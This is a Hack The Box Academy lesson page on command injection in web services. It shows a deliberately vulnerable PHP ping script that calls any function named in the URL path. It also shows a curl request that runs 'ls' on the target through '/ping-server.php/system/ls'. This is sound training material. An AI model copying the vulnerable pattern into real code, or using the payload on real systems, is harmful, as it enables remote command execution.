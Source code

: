 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/160/section/1473
// Platform Version: V1
// Module ID: 160
// Module Name: Web Service & API Attacks
// Module Difficulty: Medium
// Section ID: 1473
// Section Title: Command Injection
// Page Title: Hack The Box - Academy
// Page Number: 04
-->

# Command Injection

**Module Name:** Web Service & API Attacks **Page Number:** 04

#### 

#### WEB SERVICE & API ATTACKS

# Command Injection

``` php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

``` shell-session
[!bash!]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

![https://academy.hackthebox.com/storage/modules/160/1.png](https://academy.hackthebox.com/storage/modules/160/1.png)

``` shell-session
[!bash!]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```

# 

# 

#### Questions

####
